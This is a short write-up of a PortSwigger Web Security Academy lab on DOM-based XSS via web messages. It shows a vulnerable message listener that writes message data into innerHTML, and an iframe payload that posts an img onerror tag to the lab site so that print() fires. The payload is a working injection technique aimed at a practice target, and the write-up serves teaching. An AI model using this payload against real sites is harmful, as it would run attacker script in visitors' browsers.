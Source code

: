
# DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

---------------------------------------------

Reference: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

---------------------------------------------

Generated link: https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/

Vulnerable code:



![img](images/DOM%20XSS%20using%20web%20messages/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```



![img](images/DOM%20XSS%20using%20web%20messages/2.png)

Our payload will create a HTML element, an image which on load will call “print()”:

```
<iframe src="https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')" style="width:100%;height:100%">
```


View exploit:


